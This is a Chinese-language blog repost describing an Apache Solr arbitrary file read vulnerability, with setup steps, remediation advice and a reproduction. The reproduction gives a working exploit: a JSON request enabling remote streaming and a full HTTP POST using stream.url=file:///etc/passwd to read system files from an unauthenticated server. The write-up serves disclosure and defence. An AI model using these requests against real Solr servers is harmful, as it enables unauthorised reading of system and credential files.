 ```yaml
---
title: 推荐系列-Apache Solr最新任意文件读取漏洞
categories: 热门文章
tags:
  - Popular
author: OSChina
top: 704
cover_picture: 'https://image.3001.net/images/20210401/1617262678_60657856dedf69f91e857.png!small'
abbrlink: 6fd7717a
date: 2021-04-15 10:16:56
---
```


&emsp;&emsp;漏洞简介 Apache Solr是一个开源搜索服务引擎，默认安装未授权情况下攻击者可以构造恶意HTTP请求读取目标Apache Solr服务器的任意文件。 本文涉及相关实验：CVE-2019-0192 Apache Solr远程反...
<!-- more -->

                                                                                                                                                                                        漏洞简介 
Apache Solr是一个开源搜索服务引擎，默认安装未授权情况下攻击者可以构造恶意HTTP请求读取目标Apache Solr服务器的任意文件。 
本文涉及相关实验：CVE-2019-0192 Apache Solr远程反序列化代码执行漏洞（Apache Solr是一个开源的搜索服务器。具有高度可靠、可伸缩和容错的，提供分布式索引���复��和负载平衡查询、自动故障转移和恢复、集中配置等功能。） 
影响版本 
solr任意版本 
环境搭建 
漏���环境下载： 
https://archive.apache.org/dist/lucene/solr/8.8.0/solr-8.8.0.tgz 
解压后进入bin目录，启动（需要java环境）， 
./solr start 
此时启动的solr是没有核心进行索引和搜索的，创建一个节点（核心） 
./solr create -c test 
访问：http://ip:8983可以看到创建的核心 
![Test](https://image.3001.net/images/20210401/1617262678_60657856dedf69f91e857.png!small  'Apache Solr最新任意文件读取漏洞') 
实际场景下可以看到会有很多核心 
![Test](https://image.3001.net/images/20210401/1617262678_60657856dedf69f91e857.png!small  'Apache Solr最新任意文件读取漏洞') 
漏洞复现 
启用远程流传输 
访问http://ip:8983/solr/test/config/抓包，将请求包修改为POST请求，修改Content-Type为“application/json”，发送以下数据： 
{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}} 
![Test](https://image.3001.net/images/20210401/1617262678_60657856dedf69f91e857.png!small  'Apache Solr最新任意文件读取漏洞') 
即可开启远程流。 
读取文件 
引入远程流，将stream.url的参数的内容作为流传递。正常情况下stream.url传入的内容为“stream.url=http:/www.remotesite.com/path/to/file.pdf”,构造传入的敏感文件 
POST /solr/test/debug/dump?param=ContentStreams HTTP/1.1 
Host: 192.168.74.139:8983 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9 
Accept-Encoding: gzip, deflate 
Accept-Language: zh-CN,zh;q=0.9,en-GB;q=0.8,en;q=0.7,en-US;q=0.6 
Connection: close 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 29 
stream.url=file:///etc/passwd 
![Test](https://image.3001.net/images/20210401/1617262678_60657856dedf69f91e857.png!small  'Apache Solr最新任意文件读取漏洞') 
漏洞修复 
（官方不承认这是漏洞.jpg） 
因为solr默认安装情况下未授权，导致可以读取任意文件，启用Apache Solr身份验证可有效缓解该漏洞的影响 
配置访问控制策略，避免Apache Solr暴露在互联网 
参考 
https://mp.weixin.qq.com/s/HMtAz6_unM1PrjfAzfwCUQ
                                        